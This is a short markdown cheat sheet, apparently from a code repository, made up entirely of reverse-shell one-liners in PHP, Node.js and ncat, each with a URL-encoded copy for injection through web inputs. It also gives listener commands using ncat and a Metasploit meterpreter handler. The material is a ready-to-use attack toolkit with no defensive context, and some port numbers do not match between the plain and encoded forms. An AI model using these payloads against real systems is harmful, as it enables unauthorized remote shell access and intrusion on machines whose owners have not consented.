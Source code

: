 # REVERSE
> PHP <br>
php -r '$sock=fsockopen("127.0.0.1",1337);exec("sh <&3 >&3 2>&3");'<br>
encoded uri : php%20-r%20'$sock=fsockopen(%22127.0.0.1%22,1024);exec(%22sh%20%3C&3%20%3E&3%202%3E&3%22);'

> NODE JS<br>
require('child_process').exec('nc -e sh 127.0.0.1 1337')<br>
encoded uri : require('child_process').exec('nc%20-e%20sh%20127.0.0.1%201024');

> NETCAT <br>
ncat 127.0.0.1 1024 -e sh<br>
encoded uri : ncat%20127.0.0.1%201024%20-e%20sh


# LISTENER
> NETCAT<br>
$ ncat -lvnp 1024<br>

> MSFCONSOLE<br>
$ msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 127.0.0.1; set lport 1024; exploit"

